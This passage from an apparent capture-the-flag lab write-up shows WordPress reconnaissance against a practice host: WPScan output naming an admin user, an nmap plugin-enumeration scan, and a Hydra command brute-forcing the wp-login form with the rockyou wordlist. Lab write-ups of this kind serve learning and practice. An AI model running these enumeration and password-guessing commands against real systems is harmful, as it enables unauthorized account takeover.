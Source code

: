 ```bash
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://site.wekor.thm/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jun 27 07:07:38 2021
[+] Requests Done: 54
[+] Cached Requests: 6
[+] Data Sent: 14.766 KB
[+] Data Received: 395.89 KB
[+] Memory used: 201.492 MB
[+] Elapsed time: 00:00:15

```

It did not find any plugins, but there was a user called admin. I also scanned for plugins with nmap. It sometime finds plugins that WPScan missed. But nothing there also.

```bash
$ nmap -sV --script http-wordpress-enum --script-args search-limit=10000,http-wordpress-enum.root=/wordpress/ -p 80 site.wekor.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 07:21 EDT
Nmap scan report for site.wekor.thm (10.10.8.115)
Host is up (0.24s latency).
rDNS record for 10.10.8.115: target

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-wordpress-enum:
| Search limited to top 10000 themes/plugins
|   themes
|     twentyseventeen 2.5
|   plugins
|_    akismet 4.1.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.91 seconds
```

Next, I tried to brute force the admin password with Hydra. 

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -u -f -t64 -m '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:S=Location' wekor.thm http-post-form -v -e snr
```
